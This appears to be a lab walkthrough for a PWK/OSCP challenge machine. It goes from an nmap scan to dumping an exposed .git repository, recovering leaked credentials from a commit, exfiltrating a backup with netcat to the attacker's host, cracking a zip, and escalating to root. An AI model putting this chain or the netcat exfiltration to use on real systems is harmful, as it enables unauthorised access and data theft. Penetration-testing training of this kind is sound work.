




# .144

## Nmap

```bash
nmap -A -T4 192.168.155.144
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-29 20:43 +0000
Nmap scan report for 192.168.155.144
Host is up (0.097s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fb:ea:e1:18:2f:1d:7b:5e:75:96:5a:98:df:3d:17:e4 (ECDSA)
|_  256 66:f4:54:42:1f:25:16:d7:f3:eb:f7:44:9f:5a:1a:0b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-generator: Nicepage 4.21.12, nicepage.com
| http-git: 
|   192.168.155.144:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Security Update 
|     Remotes:
|_      https://<REDACTED COMMIT NUMBER>@github.com/PWK-Challenge-Lab/dev.git
|_http-title: Home
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   96.86 ms 192.168.45.1
2   97.12 ms 192.168.45.254
3   97.33 ms 192.168.251.1
4   97.62 ms 192.168.155.144

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.56 seconds
```
# Git Example
## Nmap Example
```bash

# Nmap 7.95 scan initiated Sun Feb 16 18:28:36 2025 as: /usr/lib/nmap/nmap --privileged -p- -A -T4 -oN CRYSTAL.txt 192.168.178.144
Nmap scan report for 192.168.178.144
Host is up (0.0050s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fb:ea:e1:18:2f:1d:7b:5e:75:96:5a:98:df:3d:17:e4 (ECDSA)
|_  256 66:f4:54:42:1f:25:16:d7:f3:eb:f7:44:9f:5a:1a:0b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-git: 
|   192.168.178.144:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Security Update 
|     Remotes:
|_      https://<REDACTED COMMIT NUMBER>@github.com/PWK-Challenge-Lab/dev.git
|_http-title: Home
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-generator: Nicepage 4.21.12, nicepage.com

```

## Download Repository

wget --mirror -I .git http://192.168.178.144/.git/

## Change to the repository
```bash
cd /192.168.178.144
```
## Look at files
```bash
git status

# Results
On branch main
Your branch is ahead of 'origin/main' by 1 commit.
  (use "git push" to publish your local commits)

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    README.md
        deleted:    api/export.php
        deleted:    api/index.php
        deleted:    api/order.php
        deleted:    configuration/database.php
        deleted:    orders/search.php
        deleted:    robots.txt
```

## View logs

```bash
git log

# Results
commit <REDACTED COMMIT NUMBER> (HEAD -> main)
Author: Stuart <luke@challenge.pwk>
Date:   Fri Nov 18 16:58:34 2022 -0500

    Security Update

commit <REDACTED COMMIT NUMBER> (origin/main, origin/HEAD)
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 23:57:12 2022 +0200

    Create database.php

commit <REDACTED COMMIT NUMBER>
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 23:56:19 2022 +0200

    Delete database.php

commit <REDACTED COMMIT NUMBER>
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 17:27:40 2022 +0200

    Create robots.txt

commit <REDACTED COMMIT NUMBER>
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 17:27:08 2022 +0200

    Create search.php

commit <REDACTED COMMIT NUMBER>
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 17:26:09 2022 +0200

    Setting up database.php

commit <REDACTED COMMIT NUMBER>
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 17:22:48 2022 +0200

    Create index.php

commit <REDACTED COMMIT NUMBER>
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 17:22:22 2022 +0200

    Create order.php

commit <REDACTED COMMIT NUMBER>
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 17:21:50 2022 +0200

    Create export.php

commit <REDACTED COMMIT NUMBER>
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 17:21:11 2022 +0200

    Initial commit
```

## View `commit` comments 

```bash
# Pick a commit number above
git show <REDACTED COMMIT NUMBER>

# Results
Author: PWK-Challenge-Lab <118549472+PWK-Challenge-Lab@users.noreply.github.com>
Date:   Fri Nov 18 23:57:12 2022 +0200

    Create database.php

diff --git a/configuration/database.php b/configuration/database.php
new file mode 100644
index 0000000..55b1645
--- /dev/null
+++ b/configuration/database.php
@@ -0,0 +1,19 @@
+<?php
+class Database{
+    private $host = "localhost";
+    private $db_name = "staff";
+    private $username = "stuart@challenge.lab";
+    private $password = "BreakingBad92";
+    public $conn;
+    public function getConnection() {
+        $this->conn = null;
+        try{
+            $this->conn = new PDO("mysql:host=" . $this->host . ";dbname=" . $this->db_name, $this->username, $this->password);
+            $this->conn->exec("set names utf8");
+        }catch(PDOException $exception){
+            echo "Connection error: " . $exception->getMessage();
+        }
+        return $this->conn;
+    }
+}
+?>
```
## SSH as Stuart:BreakingBad92

```bash
# Grab flag
```

## Manual Enumeration

```bash
stuart@oscp:/opt$ cd backup
stuart@oscp:/opt/backup$ ls

# Interesting Files
sitebackup1.zip  sitebackup2.zip  sitebackup3.zip

# Transfer files
# On Kali
nc -nvlp 9999

# On target machine
nc 192.168.45.244 9999 < /opt/backup/sitebackup3.zip

```


## Crack Zip with John

```bash
# Extract the hash first
zip2john sitebackup3.zip > ziphash.txt

# Crack the hash with JTR
codeblue
```


## Discovered Creds in Configuration.php file

```bash
#Results
<?php
class JConfig {
        public $offline = false;
        public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
        public $display_offline_message = 1;
        public $offline_image = '';
        public $sitename = 'Challenge Lab';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = 20;
        public $access = 1;
        public $debug = false;
        public $debug_lang = false;
        public $debug_lang_const = true;
        public $dbtype = 'mysql';
        public $host = 'localhost';
        public $user = 'joomla';
        public $password = 'Password@1';
        public $db = 'jooml';
        public $dbprefix = 'o83rl_';
        public $dbencryption = 0;
        public $dbsslverifyservercert = false;
        public $dbsslkey = '';
        public $dbsslcert = '';
        public $dbsslca = '';
        public $dbsslcipher = '';
        public $force_ssl = 0;
        public $live_site = '';
        public $secret = 'Ee24zIK4cDhJHL4H';
        public $gzip = false;
        public $error_reporting = 'default';
        public $helpurl = 'https://help.joomla.org/proxy?keyref=Help{major}{minor}:{keyref}&lang={langcode}';
        public $offset = 'UTC';
        public $mailonline = true;
        public $mailer = 'mail';
        public $mailfrom = 'chloe@challenge.lab';
        public $fromname = 'Challenge Lab';
        public $sendmail = '/usr/sbin/sendmail';
        public $smtpauth = false;
        public $smtpuser = '';
        public $smtppass = '';
        public $smtphost = 'localhost';
        public $smtpsecure = 'none';
        public $smtpport = 25;
        public $caching = 0;
        public $cache_handler = 'file';
        public $cachetime = 15;
        public $cache_platformprefix = false;
        public $MetaDesc = '';
        public $MetaAuthor = true;
        public $MetaVersion = false;
        public $robots = '';
        public $sef = true;
        public $sef_rewrite = false;
        public $sef_suffix = false;
        public $unicodeslugs = false;
        public $feed_limit = 10;
        public $feed_email = 'none';
        public $log_path = '/var/www/html/joomla/administrator/logs';
        public $tmp_path = '/var/www/html/joomla/tmp';
        public $lifetime = 15;
        public $session_handler = 'database';
        public $shared_session = false;
        public $session_metadata = true;
}


```


## Switch user on Stuart Shell to Chloe

```bash
su chloe
pass = Secret Key Above

# Success
```

## Priv Esc to Root

```bash
sudo su -
# Enter Chloe secret
# Success
# Grab Root Flag
```
